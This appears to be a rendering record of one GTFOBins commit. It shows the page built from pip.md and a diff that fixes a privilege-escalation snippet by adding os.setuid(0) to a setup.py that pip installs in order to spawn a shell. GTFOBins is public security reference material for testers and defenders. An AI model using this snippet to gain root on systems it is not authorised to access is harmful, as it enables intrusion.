

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide and 900 px high, scrolled down 2249 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix pip setcap

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -79,6 +79,6 @@ functions:
   capabilities-enabled:
     - code: |
         TF=$(mktemp -d)
-        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
+        echo "import os; os.setuid(0); os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         ./pip install $TF
 ---
```
